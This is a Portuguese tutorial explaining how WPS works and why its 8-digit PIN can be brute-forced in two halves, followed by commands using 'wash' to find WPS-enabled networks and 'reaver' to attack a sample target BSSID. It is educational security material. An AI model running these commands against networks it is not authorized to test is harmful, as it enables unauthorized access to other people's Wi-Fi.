 #### WPS: Wi-fi Protected Setup

O WPS foi criado com o intuito de facilitar configuração e conexão de hosts em redes wi-fi usando apenas um código numérico de 8 dígitos: o **PIN code**. Cada rede wi-fi com WPS habilitado \(WPS-enabled wi-fi\) possui um único PIN code, e é possível se conectar nela ou pela senha \(normalmente\), ou passando o PIN code para o Access Point.

Existem três agentes importantes no WPS, são eles: **o Access Point \(ou AP\)**, o **Enrollee** \(quem quer se conectar\), e o **Registrar** \(a entidade responsável por dar ou revogar acesso à rede\). Em geral, o Registrar nada mais é do que um software rodando no AP, mas é importante salientar que ele pode estar em um outro dispositivo.

**Obs:** WPS independe do método de autenticação da rede wi-fi. Por exemplo, é possível ter uma rede WPA cujo método de autenticação é Pre-Shared Key \(PSK\), ou seja, uma rede WPA/PSK, que mesmo assim utilize WPS para facilitar a configuração e futuras conexões na rede.

#### O problema com WPS

O PIN code é composto por 8 dígitos numéricos, sendo que o último desses dígitos é um _checksum_ dos 7 anteriores. Quando um Enrollee quer se conectar na rede usando um PIN code, ele precisa seguir todo o protocolo WPS, que em geral envolve 7 mensagens \(de M1 a M7\):

![](https://i.imgur.com/ehdAIZT.png)

![](https://i.imgur.com/LIrh2zP.png)

Se, apos enviarmos a mensagem M4, a primeira metade do PIN code estiver incorreta, recebemos um NACK. Da mesma maneira, se enviarmos a primeira metade do PIN correta mas a segunda incorreta, recebemos um NACK após M6. Isso torna possível fazer um ataque de força bruta em que enviamos todas as possibilidades da primeira metade do PIN \(de 0000 até 9999\). Depois de acertarmos a primeira metade do PIN, repetimos o processo para a segunda metade. No entanto, como o último dígito do PIN é um checksum \(ou seja, apenas uma conta feita com os primeiros 7\), basta chutarmos 3 dígitos nessa parte \(de 000\[checksum\] até 999\[checksum\]\).

#### Primeiro ataque: Reaver

O `reaver` é uma ferramenta que vem por padrão junto com o Kali e serve justamente para realizar o brute force \(_online_\) descrito acima. No pacote do `reaver` do Arch vem também o `wash`, que nos permite listar todas as redes wi-fi próximas com WPS habilitado.

```text
$ sudo wash -i <sua interface wireless>
$ sudo wash -i wlan0

BSSID               Ch  dBm  WPS  Lck  Vendor    ESSID
--------------------------------------------------------------------------------
7C:05:07:F6:EE:84    1  -90  2.0  No   Broadcom  HAL_9000
D4:B9:2F:2B:9D:2A    1  -92  2.0  No   Broadcom  2.4G_gobbs
```

Nesse exemplo, encontramos duas redes: `HAL_9000` e `2.4G_gobbs`. Vamos agora atacar a primeira delas \(`HAL_9000`\) usando o `reaver`:

```text
$ sudo reaver -i <sua interface wireless> -b <BSSID do alvo> -vv
$ sudo reaver -i wlan0 -b 7C:05:07:F6:EE:84 -vv
```
